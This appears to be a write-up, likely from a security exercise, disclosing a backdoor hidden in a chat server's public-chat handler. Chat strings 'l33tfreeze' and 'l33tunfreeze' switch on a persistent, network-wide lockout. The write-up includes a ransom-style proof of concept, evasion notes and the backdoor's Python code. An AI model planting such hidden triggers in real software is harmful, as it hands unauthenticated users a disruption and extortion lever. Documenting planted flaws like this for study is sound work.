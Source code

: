 ## Description

This backdoor implements a covert distributed control mechanism disguised as a maintenance mode feature. While it appears to be a legitimate administrative tool, it's actually designed to allow an administrator (or any user who knows the commands) to control other servers for their own gain. It could potentially be exploited in a ransomware-like attack, enabling the disruption of services across multiple servers and the ability to demand payment for restoration.

## Technical Details

The backdoor is implemented within the `handle_public_chat` function of the server. It checks for specific command strings in public chat messages:

When 'maintenance mode' is activated:

- Most server functionalities are restricted
- File operations return a specific error message: "all your server are belong to us"
- Only public chat messages are allowed to pass through

The maintenance mode state is propagated to all connected servers, potentially affecting the entire network. Crucially, this state is saved inside the server's volume, meaning it persists even if the server is restarted, allowing for long-term control.

## Objectives

This backdoor violates several key security principles:

1. Authorization: Allows any user with knowledge of the commands to control critical server states without proper authentication.
2. Availability: Can be used to disrupt normal server operations across multiple servers.
3. Integrity: Modifies server behavior without proper controls or audit trails.
4. Confidentiality: The presence of this backdoor is hidden from regular users and administrators.
5. Non-repudiation: The attacker can deny involvement as the commands look like regular chat messages.

## Exploitation Method (Proof of Concept)

1. Attacker joins the public chat as a regular user.
2. To activate 'maintenance mode' across all servers, attacker sends the following message in public chat:
   ```
   l33tfreeze
   ```
3. The command propagates to all connected servers, potentially disrupting the entire network.
4. Attacker could then demand payment (through public chat or other means) for service restoration.
5. To deactivate 'maintenance mode', attacker sends:
   ```
   l33tunfreeze
   ```
6. The server processes these commands silently, without notifying other users.
7. File downloads / uploads are disabled, clients can no longer see other clients or create private messages

![Image 2.1](appendix/Image%202.1.png)

<p align="center"><em>Figure 2.1: Client 2 attempts to send a private message but can't because it's server has been compromised!</em></p>

![Image 2.2](appendix/Image%202.2.png)

<p align="center"><em>Figure 2.2: Attackers have left a message to their victims</em></p>

## Detection Challenges

- The backdoor is disguised as a legitimate maintenance mode feature, making it appear as a normal administrative tool.
- It's hidden within the public chat handling function, blending in with normal message processing.
- The activation/deactivation commands look like innocuous chat messages.
- No special permissions are required to use these commands, making it difficult to trace the source.
- The maintenance mode state is saved persistently in the server's volume, allowing the effect to persist across server restarts. This makes it harder to detect and remove.
- There's no visible indication to users that the server has entered or exited 'maintenance mode', except for restricted functionality.

## Code Snippet

```python
async def handle_public_chat(self, message_dict, from_client):
    data = message_dict.get('data', {})
    message_content = data.get('message', '')

    if not from_client:
        # Message is from another server
        if message_content == 'l33tfreeze':
            self.maintenance_mode = True
            self.save_maintenance_mode()
            return
        elif message_content == 'l33tunfreeze':
            self.maintenance_mode = False
            self.save_maintenance_mode()
            return
        else:
            # Deliver to clients on this server
            await self.deliver_message_to_clients(message_dict)
            return
    else:
        # Message is from a client
        # Deliver to clients on this server
        await self.deliver_message_to_clients(message_dict)
        # Forward to all other servers
        message_json = json.dumps(message_dict)
        for server_address, websocket in self.servers.items():
            if server_address != self.address:
                try:
                    await websocket.send(message_json)
                    logger.info(f"Forwarded public chat to server {server_address}.")
                except Exception as e:
                    logger.error(f"Error forwarding public chat to server {server_address}: {e}")
```